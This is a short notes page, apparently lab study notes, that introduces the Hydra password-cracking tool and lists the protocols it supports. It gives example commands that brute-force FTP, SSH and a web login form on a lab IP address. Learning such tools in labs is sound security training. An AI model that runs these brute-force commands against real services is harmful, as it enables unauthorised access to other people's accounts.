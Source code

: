 ## Hydra

What is Hydra?
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

https://en.kali.tools/?p=220


![image](https://user-images.githubusercontent.com/105601437/222922462-c0cf02c3-92d4-4950-a0f1-6f4936706740.png)



<br>
FTP<br>
hydra -l user -P passlist.txt ftp://10.10.149.84

SSH<br>
hydra -l <username> -P <full path to pass> 10.10.149.84 -t 4 ssh

  
 Web Form<br>
hydra -l <username> -P <wordlist> 10.10.149.84 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


